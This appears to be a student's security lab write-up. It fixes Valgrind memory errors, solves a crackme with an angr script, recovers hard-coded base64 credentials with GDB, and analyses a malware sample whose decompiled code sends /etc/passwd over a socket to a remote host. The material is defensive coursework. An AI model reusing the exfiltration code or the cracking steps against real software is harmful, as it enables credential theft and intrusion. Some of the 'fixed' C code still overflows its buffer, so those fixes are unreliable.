


### Exercise 1: Valgrind


1.

Compiling c source code with gcc
```bash
$: gcc A.c -o a.out
```

__Errors detected :__


__Category of error :__ Heap block overrun

__Fix:__
Change the allocates size to 11. (`line no: 6`)
```c
    x = (char *) malloc(11 * sizeof(char));
```
- Recompiled the  code with fix.
__Result:__

```bash
==89660== HEAP SUMMARY:
==89660==     in use at exit: 0 bytes in 0 blocks
==89660==   total heap usage: 1 allocs, 1 frees, 11 bytes allocated
==89660== 
==89660== All heap blocks were freed -- no leaks are possible
==89660== 
==89660== ERROR SUMMARY: 0 errors from 0 contexts (suppressed: 0 from 0)
```


2. 

Compiling c source code with gcc
```bash
$: gcc B.c -o b.out
```
__Errors detected :__

1. Memory unfreed
2. Accessing unalloacted byte


__Category of error :__ 
1. Heap block overrun
2. Memory leak  -- x is not freed

__Fix :__

```c
int main() {
        char *x;
        x = (char *) malloc(11 * sizeof(char)); //allocated size 11
        x[10] = 'A';
        free(x);  //freed allocated memory
        return 0;
}
```

__Result__

```bash
==89772== 
==89772== HEAP SUMMARY:
==89772==     in use at exit: 0 bytes in 0 blocks
==89772==   total heap usage: 1 allocs, 1 frees, 11 bytes allocated
==89772== 
==89772== All heap blocks were freed -- no leaks are possible
==89772== 
==89772== ERROR SUMMARY: 0 errors from 0 contexts (suppressed: 0 from 0)

```


3.

__Errors detected :__

1. Integer overflow
2. Memory leak - buf is not freed


__Fix :__

```c
int main (int argc, char* argv[]) {
        char *buf;
        buf = malloc(128<<1);  // changed reserved space
        fgets(buf,1024 ,stdin);
        printf("%s\n",buf);
        free(buf); //freed allocated space
        return 1;
}

```

__Result :__

```bash
==94642== 
==94642== HEAP SUMMARY:
==94642==     in use at exit: 0 bytes in 0 blocks
==94642==   total heap usage: 3 allocs, 3 frees, 2,304 bytes allocated
==94642== 
==94642== All heap blocks were freed -- no leaks are possible
==94642== 
==94642== ERROR SUMMARY: 0 errors from 0 contexts (suppressed: 0 from 0)
```


4. 
__Errors detected :__

1. Uninitialized integers


__Fix :__

```c
int main()
{
    int *x,*y;    
    x = malloc(sizeof(int));  //added
    y = malloc(sizeof(int));   //added
    if(x != NULL && y != NULL) {       //added
        printf("\nx: ");
        scanf("%d", x);
        printf("\ny: ");
        scanf("%d", y); 
        if(*(x) == *(y)) printf("x==y\n");
        if(*(x) > *(y)) printf("x>y\n"); 
        if(*(x) < *(y)) printf("x<y\n");
    }
  
    free(x);free(y);  //added
    return 0;
}

```

__Result :__

```bash
==95577== HEAP SUMMARY:
==95577==     in use at exit: 0 bytes in 0 blocks
==95577==   total heap usage: 4 allocs, 4 frees, 2,056 bytes allocated
==95577== 
==95577== All heap blocks were freed -- no leaks are possible
==95577== 
==95577== ERROR SUMMARY: 0 errors from 0 contexts (suppressed: 0 from 0)
```


5. 
__Errors__
1. Uninitialized  integer


__Fix__

```c
    int x=2;  intialize value ,line number 9 
```

__Result__

```bash
==95813== HEAP SUMMARY:
==95813==     in use at exit: 0 bytes in 0 blocks
==95813==   total heap usage: 1 allocs, 1 frees, 1,024 bytes allocated
==95813== 
==95813== All heap blocks were freed -- no leaks are possible
==95813== 
==95813== ERROR SUMMARY: 0 errors from 0 contexts (suppressed: 0 from 0)
```


### Exercise 3: angr

1. Using IDA or any other tool, show the Control Flow Graph (CFG) of the program

Tool used: __Ghidra__




__3. Write a python script with using angr to solve the task and give a valid serial__

```python
import angr
import claripy


SUCCESS_ADDR = 0x00400677
FAILURE_ADDR = 0x00400683
FLAG_LEN = 6
STDIN_FD = 0


base_addr = 0x00400000 # To match addresses to Ghidra

proj = angr.Project("./crackme3.o", main_opts={'base_addr': base_addr}) 

flag_chars = [claripy.BVS('flag_%d' % i, 8) for i in range(FLAG_LEN)]
flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')]) # Add \n for scanf() to accept the input

state = proj.factory.full_init_state(
        args=['./crackme3.out'],
        add_options=angr.options.unicorn,
        stdin=flag,
)

# Add constraints that all characters are printable
for k in flag_chars:
    state.solver.add(k >= ord('!'))
    state.solver.add(k <= ord('~'))

simgr = proj.factory.simulation_manager(state)
simgr.explore(find=SUCCESS_ADDR, avoid=FAILURE_ADDR)

if (len(simgr.found) > 0):
    for found in simgr.found:
        print(found.posix.dumps(STDIN_FD))
```


### Exercise 4: American Fuzzy Lop (afl)


### Exercise 5: Reverse engineering

__1. Check for implemented security features. What did you find?__

- used the following command to find the security meachnaisms implemented for the binary

```bash
checksec <binary>
```

```bash
┌──(shashi@kali)-[~/lab2/LabCode_Part5]
└─$ checksec RE.warmup
[*] '/home/kali/lab2/LabCode_Part5/RE.warmup'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled

```

__2. The Program is asking for credentials to access. Retrieve the correct credentials and use them to login.__

```bash
shashi@kali-[~]
─$ ./RE.warmup 
Enter USER ID and PASSWORD below (You have only three chances to enter)
USER ID: R007B0553210

PASSWORD: 7oorM0On3210

You have logged in successfully.   
```

__3. Show your work. How did you break in?__

__solution :__
__step 1:__ Run the binary in debugger (GDB)  and set breakpoint in main.

```bash
┌──(shashi@kali)-[~/lab2/LabCode_Part5]
└─$ gdb -q ./RE.warmup
Reading symbols from ./RE.warmup...
(No debugging symbols found in ./RE.warmup)
(gdb) set disassembly-flavor intel
(gdb) break main
Breakpoint 1 at 0xba3

```
__step 2:__ run the program  as `breakpoint 1`  is hit, disassemble main and look for first `strcmp` function (persumably this comparision is for `USERID`) and set breakpoint at that specific address.

```bash
(gdb) break *0x0000555555400cfb
Breakpoint 2 at 0x555555400cfb
```

__step 3 :__ Continue the program by entering `USERID` as `9` and `PASSWORD` as `5` 

```bash
(gdb) c
Continuing.

Enter USER ID and PASSWORD below (You have only three chances to enter)
USER ID: 9

PASSWORD: 5

Breakpoint 2, 0x0000555555400cfb in main ()
```
__step 4:__  As `strcmp`  breakpoint (`Breakpoint 2, 0x0000555555400cfb in main()`) is hit, step-inside the function and examine the registers.

```bash
(gdb) stepi
0x0000555555400810 in strcmp@plt ()
(gdb) info registers
rax            0xfffffffa          4294967290
rbx            0x555555603ae0      93824992951008
rcx            0x55                85
rdx            0x0                 0
rsi            0x7fffffffdf50      140737488346960
rdi            0x555555603ae0      93824992951008
rbp            0x1                 0x1
rsp            0x7fffffffdef8      0x7fffffffdef8
r8             0x555555603ae0      93824992951008
r9             0x7ffff7f54be0      140737353436128
r10            0x7ffff7f083c0      140737353122752
r11            0x20                32
r12            0x7fffffffdf12      140737488346898
r13            0x7fffffffdf21      140737488346913
r14            0xffffffffffffffff  -1
r15            0x555555400f0b      93824990842635
rip            0x555555400810      0x555555400810 
...

```

```bash
(gdb) x/s 0x555555603ae0
0x555555603ae0: "NQ=="
(gdb) x/s 0x7fffffffdf50
0x7fffffffdf50: "N29vck0wT24zMjEw"
(gdb) x/s 0x7fffffffdef8
0x7fffffffdef8: ""
(gdb) x/s 0x7fffffffdf21
0x7fffffffdf21: "9"
```

- after examing the all the register contents, the pecular thing, that found  `NQ==` (which clearly not my input), which on observing, found out that it is `base64` encoded string of `5`, which is the password I entered.

```bash
┌──(shashi@kali)-[~]
└─$ echo "NQ==" | base64 -d                          
5  
```

__step 5:__ Since the comparison is happening(assumed) with base64 encoded string, ran `strings` command on the binary to see if there are any corresponding strings.


> These strings can be found in registers when debugging in GDB , which is being compared with out `username` and `password` values

- Found strings

```
UjAwN0IwNTUzMjEw  
N29vck0wT24zMjEw 
```
__step 6:__ Decode the strings with `base64`

```bash                                              
┌──(shashi@kali)-[~/lab2/LabCode_Part5]
└─$ echo "UjAwN0IwNTUzMjEw" | base64 -d 
R007B0553210  

┌──(shashi@kali)-[~/lab2/LabCode_Part5]
└─$ echo "N29vck0wT24zMjEw" | base64 -d 
7oorM0On3210 
```

> `H` found in end of the strings, resulted as junk value when decoded, as it likely a new line character and ignored when decoding.

__4. Propose a better way to protect the program__
__solution :__
1. Code obfuscation.
3. Strip the symbols 
4. randomize the stored data
5. Runtime calculations of data


#### Analysing `Worse` Binary

__1. What does this malware sample do? Explain how did you find this information.__
__solution__

1. Connects to host
```bash
hostname = gethostbyname("thebeautifulrabbitisjumpingaroundlolwhatisthisapenny.com");
```
2. If the host does not exist, write `"nice try noob \n"`on to the screen.
3. If it exists, writes `loooooooool ^_^\n` to the screen.
4. Decrypt `IP` and `credentials`

```c++
decryptip(local_486)
decryptcred(local_498);
```

5. copy the decrypted credentiuals (first 16 bytes) into creds_array.

```c++
 local_c = 0;
  while (local_c < 0x10) {
    creds_array[local_c] = credentials[local_c];
    local_c = local_c + 1;
  }
```

6. uses bzero to erases `1024 bytes (x400)` bytes from the given location.

```c++
bzero(to_erase_location,0x400);
```

7. open the `/etc/passwd` file and reads its contents

```c
etc_file_descripter = fopen("/etc/passwd","rb");
```

8.
    - If the file is available then
    - move file pointer associated with  `etc_file_descripter` to a specific position given. (`fseek()`)
    - Get the `etc/passwd` file size using `ftell` and the same amount of memory using `malloc`.
    - if the buffer is not null, read the file contents using fread.
    - close the file descriptor.

```c
  if (etc_file_descripter != (FILE *)0x0) {
    fseek(etc_file_descripter,0,2);
    etc_passwd_file_Size = ftell(etc_file_descripter);
    fseek(etc_file_descripter,0,0);
    etc_buffer = (char *)malloc(etc_passwd_file_Size);
    if (local_20 != (char *)0x0) {
      fread(etc_buffer,1,etc_passwd_file_Size,etc_file_descripter);
    }
    fclose(etc_file_descripter);
```

9. creates a bind shell on `port 1337`

Socket configuration found:
```c
port = 0x343f;
  socket_socket = socket(2,1,0);
  if (socket_socket < 0) {
    error("ERROR opening socket");
  }
```

Configuration of above socket is , as follows

```c
int socket(intdomain, int type, int protocol);  //creates an endpoint for communication and returns a file descriptor that refers to that endpoint.
    socket(AF_INET, SOCK_STREAM, PROTOCOL) 
    socket(2, 1, 0)
```

10. copy the ip address using `memcpy`

```c
    memcpy(copied_ip,ip_address,0xc); 
```

11. Now, `getthehostbyname` using the `copied_ip` and write `ERROR, no such host` if it is empty

```c
host_by_name = gethostbyname(copied_ip);  
  if (host_by_name == (hostent *)0x0) {
    fwrite("ERROR, no such host\n",1,0x14,stderr);
    exit(0);
```

12. make a socket connection

```c
iVar2 = connect(socket_socket,(sockaddr *)local_478,0x10)
  if (iVar2 < 0) {
    error("ERROR connecting");
  }
```
13. use `write` to write the `etc/passswd` contents and prints "ERROR writing" if the read contnets is empty.

```
    php_page = "/qwertylolnotqwerty1337.php"; 
      etc_buffer_length = strlen(etc_buffer);
      sVar3 = write(socket_socket,etc_buffer,etc_buffer_length);
      local_54 = (int)sVar3;
      if (local_54 < 0) {
        error("ERROR writing to socket");
      }
```

__2. In real life engagements, what steps should a malware anaylzer follow to understand a
malware without being infected with it.__

__solution :__
1. Combine static and dynamic analysis
2. Run in isolated environments like virtual machines when using dynamic analysis
3. Use sandboxe environments, for not being infected by the malware when analysing.
4. Try reversing the binary file, for finding potential functionalities.
5. Making use of disassemblers

__3. What tricks and protection mechanisms does this malware implement? How did you find it?__

__solution:__
- Tricks and Protection mechanisms:

1. Use of packers (`upx packer`): Found when binary is run using `strings`

Sample output from `strings`

```bash
┌──(shashi@kali)-[~/lab2/LabCode_Part5]
└─$ strings worse 
UPX!
/lib64
nux-x86-
so.2
Qc;@
exihtons
fopen
trncmp
rro{
c!nec*ftell
mkdir/l6fseek
emcpy
m!caAbzQo
h"tbyna3
read'r
wB__cxa_f
_1wt_W
VGLIBC_2.14
ITM_jegi&
TablLgm
L_*(
@l 0 
o7H9
='0R
5U0;
/       DU3G
m{      T
AWAVQ
AUAK%
{[]A\
FOBYFGYAOYEC
E@YG
thebeau
tifulrabbi      sjumpingaroundlol
a7nyZ
.com
nice try noob 
l ^_^
%02X
/etc/p
asswd
ERROR }_ 
        ZG-
,Nde
        ailed!"P&
LtoO a
/qwerty
1337.php
;*3$"
USQRH
PROT_EXEC|PROT_WRITE failed.
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.94 Copyright (C) 1996-2017 the UPX Team. All Rights Reserved. $

...

```


2. using memset to clear memory blocks after accessing `etc/passwd` file
3. encrypting credentials and ip and decrypting it later.
    - found when binary is disassembled using `Ghidra`

```c++
    decryptip(local_486)
    decryptcred(local_498);
```